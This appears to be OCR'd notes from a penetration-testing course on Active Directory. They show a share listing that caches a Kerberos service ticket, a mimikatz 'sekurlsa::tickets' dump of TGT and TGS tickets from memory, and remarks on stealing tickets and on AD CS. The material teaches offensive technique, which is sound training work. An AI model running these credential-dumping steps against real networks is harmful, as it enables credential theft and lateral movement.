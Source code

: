 # Let's open a second PowerShell window ahnd list the contents of the SMB sare on WEB04 with UNC path \\web04.corp.com\backup. This will create and cache a service ticket.

PS C:\Users\jeff> dir \\web04.corp.com\backup

# Once we had executed the directory listing on SMB share, we can use mimikatz to show the tickets that are stored in memory by entering sekurlsa::tickets

mimikatz # sekurlsa::tickets
...
        Group 0 - Ticket Granting Service
           Service Name (02) : cifs ; web04.corp.com ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM
        Group 2 - Ticket Granting Ticket
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
...

# Above results show both a TGT and TGS. Stealing a TGS would allow us to access only particular resources associated with those tickets. Alternatively, armed with a TGT, we could request a TGS for specific resources we want to target within the domain. We will discuss how to leverage stolen or forged tickets later on in this and the next Module.

# Mimikatz can also export tickets to the hard drive and import tickets into LSASS, which we will explore later.

#  Microsoft provides the AD role Active Directory Certificate Services (AD CS)13 to implement a PKI, which exchanges digital certificates between authenticated users and trusted resources.

# If a server is installed as a Certification Authority (CA),14 it can issue and revoke digital certificates (and much more). While a deep discussion on these concepts would require its own Module, let's focus on one aspect of cached and stored objects related to AD CS.

# For example, we could issue certificates for web servers to use HTTPS or to authenticate users based on certificates from the CA via Smart Cards.15
